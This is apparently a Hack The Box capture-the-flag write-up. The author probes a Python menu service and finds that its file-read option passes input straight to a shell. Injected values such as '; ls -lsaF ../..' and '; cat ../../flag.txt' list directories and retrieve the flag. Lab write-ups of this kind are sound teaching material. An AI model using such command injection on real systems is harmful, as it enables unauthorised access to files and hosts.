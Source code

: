
This is interesting:

└──╼ #nc 64\.227\.37\.214 30880

\[\*\] Directory to work in: aKomTaFRQr6qAqgglw8BuuUloJs32UAk

Component List:

\+===============\+
|               |
|  1\. Head  🤖  |
|  2\. Torso 🦴   |
|  3\. Hands 💪  |
|  4\. Legs  🦵   |
|               |
\+===============\+

\[\*\] Choose component: 1,2,
Traceback \(most recent call last\):
File "/home/ctf/artifacts\.py", line 96, in \<module\>
ans = subjects\(\)
File "/home/ctf/artifacts\.py", line 38, in subjects
ans = int\(input\(colored\("\[\*\] Choose component: ", "magenta"\)\)\)
ValueError: invalid literal for int\(\) with base 10: '1,2,'

**looks like python is running, will try to fuzz each option a little more**\-\- /home/ctf/artifacts\.py

**
**\. Compress artifact \(zip \<name\>\.zip \<name\> \<options\>\)
5\. Change directory  \(cd \<dirname\>\)
6\. Clean directory   \(rm \-rf \./\*\)
7\. Exit

\[\*\] Choose action: 3


Insert name you want to read: ls \-lsaF \.\.
cat: unrecognized option: l
BusyBox v1\.34\.1 \(2021\-11\-23 00:57:35 UTC\) multi\-call binary\.

Usage: cat \[\-nbvteA\] \[FILE\]\.\.\.

Print FILEs to stdout

\-n	Number output lines
\-b	Number nonempty lines
\-v	Show nonprinting characters as ^x or M\-x
\-t	\.\.\.and tabs as ^I
\-e	\.\.\.and end lines with $
\-A	Same as \-vte

Actions:

1\. Create artifact
2\. List directory    \(pwd; ls \-la\)
3\. Read artifact     \(cat \./\<name\>\)
4\. Compress artifact \(zip \<name\>\.zip \<name\> \<options\>\)
5\. Change directory  \(cd \<dirname\>\)
6\. Clean directory   \(rm \-rf \./\*\)
7\. Exit

\[\*\] Choose action: 3


Insert name you want to read: ; ls \-lsaF \.\.
cat: read error: Is a directory
total 24
4 drwxr\-sr\-x    6 ctf      ctf           4096 May 14 21:50 \./
4 drwxr\-sr\-x    1 ctf      ctf           4096 May 14 21:50 \.\./
4 drwxr\-sr\-x    2 ctf      ctf           4096 May 14 21:50 Hands/
4 drwxr\-sr\-x    2 ctf      ctf           4096 May 14 21:50 Head/
4 drwxr\-sr\-x    2 ctf      ctf           4096 May 14 21:50 Legs/
4 drwxr\-sr\-x    2 ctf      ctf           4096 May 14 21:50 Torso/

Actions:

1\. Create artifact
2\. List directory    \(pwd; ls \-la\)
3\. Read artifact     \(cat \./\<name\>\)
4\. Compress artifact \(zip \<name\>\.zip \<name\> \<options\>\)
5\. Change directory  \(cd \<dirname\>\)
6\. Clean directory   \(rm \-rf \./\*\)
7\. Exit

\[\*\] Choose action: 3


Insert name you want to read: ; ls \-lsaF \.\./\.\.
cat: read error: Is a directory
total 180
4 drwxr\-sr\-x    1 ctf      ctf           4096 May 14 21:50 \./
8 drwxr\-xr\-x    1 root     root          4096 Mar  3 15:18 \.\./
4 drwxr\-sr\-x    6 ctf      ctf           4096 May 14 21:42 5YVIePeRwJ8rzLCvyLX2mobQblJCFP93/
4 drwxr\-sr\-x    6 ctf      ctf           4096 May 14 21:47 5ccNIdmCQsyEM9mPFUD0pUyHWcmQMcfN/
4 drwxr\-sr\-x    6 ctf      ctf           4096 May 14 21:41 6MzqdH59mKfNAkbELmXlXgnGCPvex5cE/
4 drwxr\-sr\-x    6 ctf      ctf           4096 May 14 21:41 8ijrRW7JjnpsyYkPaSZoqIiibL3O8QNB/
4 drwxr\-sr\-x    6 ctf      ctf           4096 May 14 21:41 9yIXNoAIeYgyJjx9TsjfP05DT0lhVV8x/
4 drwxr\-sr\-x    6 ctf      ctf           4096 May 14 21:42 AGflZCfUFncpaR3Egslr10J8ukA3XjAK/
4 drwxr\-sr\-x    6 ctf      ctf           4096 May 14 21:46 CuhOjuZ3iLvtnXCgP08AN25k39L86gl6/
4 drwxr\-sr\-x    6 ctf      ctf           4096 May 14 21:41 GpLnrYEWQxWLWGVcAkGhbJilFloUqZyb/
4 drwxr\-sr\-x    6 ctf      ctf           4096 May 14 21:40 HYmOLPPhKvaoHQ86GLPAcGHqt1DhUbmm/
4 drwxr\-sr\-x    6 ctf      ctf           4096 May 14 21:41 IYBtcDOnW05PZjt1QnBF3xROG2FzLuvb/
4 drwxr\-sr\-x    6 ctf      ctf           4096 May 14 21:49 KawzmvJTEYDdDATbQLbGm8bfY8f7BgDh/
4 drwxr\-sr\-x    6 ctf      ctf           4096 May 14 21:41 NKkz6lSbV2SIje0X75Z9cnTP9xgA8Mp3/
4 drwxr\-sr\-x    6 ctf      ctf           4096 May 14 21:42 OJN5xuwtiE2I6i7hLUCkosah5KzDHuCO/
4 drwxr\-sr\-x    6 ctf      ctf           4096 May 14 21:42 PoMvRWOMaSRMO0vcdctOPUJYGntPBlHi/
4 drwxr\-sr\-x    6 ctf      ctf           4096 May 14 21:50 ROF3ZeeYLx0vFuFLRa3QIYCYmkKFMaJY/
4 drwxr\-sr\-x    6 ctf      ctf           4096 May 14 21:41 VgtO8HeoShxj5PTwrI7eNmWsaHsEIz98/
4 drwxr\-sr\-x    6 ctf      ctf           4096 May 14 21:42 WvDA5IRgER75KlpG4KOebDUm6AshtDoa/
4 drwxr\-sr\-x    6 ctf      ctf           4096 May 14 21:47 aKomTaFRQr6qAqgglw8BuuUloJs32UAk/
4 drwxr\-sr\-x    6 ctf      ctf           4096 May 14 21:49 aOWCDj5vrPyKPR6G48eeSq5mqIO4i8Rw/
4 drwxr\-sr\-x    6 ctf      ctf           4096 May 14 21:42 aVOY6CSUCWKGWn3Xc2Jdt0h8vgHxW83C/
4 \-rwxrwxr\-x    1 root     root          3166 May 12 23:51 artifacts\.py\*
4 drwxr\-sr\-x    6 ctf      ctf           4096 May 14 21:49 bbRo2DWtLN7SqhnBVWzsFO893A3xM1Fj/
4 \-rw\-rw\-r\-\-    1 root     root           263 May 12 23:32 clear\.py
4 drwxr\-sr\-x    6 ctf      ctf           4096 May 14 21:41 dhppC1Eu5VVrD5FiPJGnWu2G7rr65mlH/
4 drwxr\-sr\-x    6 ctf      ctf           4096 May 14 21:41 eS6hGbouIOxvQ4EzFr0oFeOA35CBbUJk/
4 drwxr\-sr\-x    6 ctf      ctf           4096 May 14 21:49 fXjGPzNI8gEKcVsLliK7KJcIvcZ4UdEB/
4 \-rw\-rw\-r\-\-    1 root     root            38 May 12 17:37 flag\.txt
4 drwxr\-sr\-x    6 ctf      ctf           4096 May 14 21:43 g6c6OJuzqop8yGtD4reZMg0n2zQV7rmN/
4 drwxr\-sr\-x    6 ctf      ctf           4096 May 14 21:41 gcvgAbCRoHnaOIEuWKHqiWrqBJyLQLj4/
4 drwxr\-sr\-x    6 ctf      ctf           4096 May 14 21:42 jBFRw27yGLpDrNeSWDWulBzN5CWsVceO/
4 drwxr\-sr\-x    6 ctf      ctf           4096 May 14 21:41 mTk18paxxoeitd8MyMZ2mLu22PszkvFa/
4 drwxr\-sr\-x    6 ctf      ctf           4096 May 14 21:41 n0IyByCIhXoiNt7hV0ceJM6ZXXILAGKi/
4 drwxr\-sr\-x    6 ctf      ctf           4096 May 14 21:41 n0SBaN2FY0dFU6PFq6Bol5YNwRav0fNn/
4 drwxr\-sr\-x    6 ctf      ctf           4096 May 14 21:42 p75ZoYhRx2O1W9WVohRqLmLg8pH7kJOU/
4 drwxr\-sr\-x    6 ctf      ctf           4096 May 14 21:41 qSIuYttcV2Bd6ixe3HcbUS6jW9eshtDc/
4 drwxr\-sr\-x    6 ctf      ctf           4096 May 14 21:41 ql9gGZZT5Gad2j4d2rpFocjFxbOi90oV/
4 drwxr\-sr\-x    6 ctf      ctf           4096 May 14 21:41 rQk7PXg40NTqa2S0QhrbWSY5HJA1p0hq/
4 drwxr\-sr\-x    6 ctf      ctf           4096 May 14 21:41 sc6xGfbV6aYkj5dDltp2p4tuaQjQsmb4/
4 drwxr\-sr\-x    6 ctf      ctf           4096 May 14 21:41 tdUDxXrrpGA8rmkVKSGlrm5aj8LX7jJE/
4 drwxr\-sr\-x    6 ctf      ctf           4096 May 14 21:41 wlcXqM54R2OdwZtG81K7dlP3zeI8k9fL/
4 drwxr\-sr\-x    6 ctf      ctf           4096 May 14 21:41 xW3uEy0cnm51VHGFYgZ28eVzkjVFS3hb/
4 drwxr\-sr\-x    6 ctf      ctf           4096 May 14 21:41 z1j3H6BQ3mIKroJubgoQwWOUZ07KEaBG/

Actions:

1\. Create artifact
2\. List directory    \(pwd; ls \-la\)
3\. Read artifact     \(cat \./\<name\>\)
4\. Compress artifact \(zip \<name\>\.zip \<name\> \<options\>\)
5\. Change directory  \(cd \<dirname\>\)
6\. Clean directory   \(rm \-rf \./\*\)


**Holy shit can it be that easy?\!?\!**

Actions:

1\. Create artifact
2\. List directory    \(pwd; ls \-la\)
3\. Read artifact     \(cat \./\<name\>\)
4\. Compress artifact \(zip \<name\>\.zip \<name\> \<options\>\)
5\. Change directory  \(cd \<dirname\>\)
6\. Clean directory   \(rm \-rf \./\*\)
7\. Exit

\[\*\] Choose action: 3


Insert name you want to read: ; cat \.\./\.\./flag\.txt
cat: read error: Is a directory
HTB\{GTFO\_4nd\_m4k3\_th3\_b35t\_4rt1f4ct5\}

